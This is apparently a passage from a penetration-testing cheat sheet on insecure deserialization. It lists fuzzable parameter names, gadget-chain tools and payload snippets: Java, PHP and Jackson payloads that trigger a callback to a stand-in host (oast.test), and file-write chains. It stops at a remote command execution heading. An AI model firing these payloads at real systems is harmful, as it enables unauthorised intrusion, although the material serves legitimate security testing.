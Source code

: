 
### 🧪 Fuzzable Entry Points

```text
session, token, data, payload, object, blob, state, config, user, profile, settings, preferences, export, import, backup, restore, message, request, response, cache, cookie
```

---

### 🛠️ Tooling Suggestions

| Tool | Purpose |
|------|---------|
| [ysoserial](https://github.com/frohoff/ysoserial) | Java gadget chain generation |
| [PHPGGC](https://github.com/ambionics/phpggc) | PHP gadget chains |
| [SerialKiller](https://github.com/NetSPI/SerialKiller) | .NET deserialization testing |
| [Burp Deserialization Scanner](https://github.com/PortSwigger/deserialization-scanner) | Passive detection |
| [Hackvertor](https://portswigger.net/bappstore/3e8c6e0d7f4a4e2c9e6b8f5b4e8c6e0d) | Encoding/decoding payloads |

---

**1. Blind Callback via Deserialization**  
Trigger DNS/HTTP exfiltration to confirm deserialization execution.

```java
// Java (ysoserial - CommonsCollections1)
Payload: http://oast.test/ping

// PHP
O:8:"Exploit":1:{s:4:"ping";s:33:"http://oast.test/ping.jpg";}

// JSON (Jackson)
{"@type":"java.net.URL","val":"http://oast.test/callback"}
```

---

**2. File Write via Gadget Chain**  
Write arbitrary file to disk during deserialization.

```java
// ysoserial - FileOutputStream chain
Creates: /tmp/proof.txt

// PHPGGC - Monolog/RCE1
Writes: /tmp/success.txt with attacker-controlled content
```

---

**3. Remote Command Execution**  
Execute system commands via deserialization gadgets.
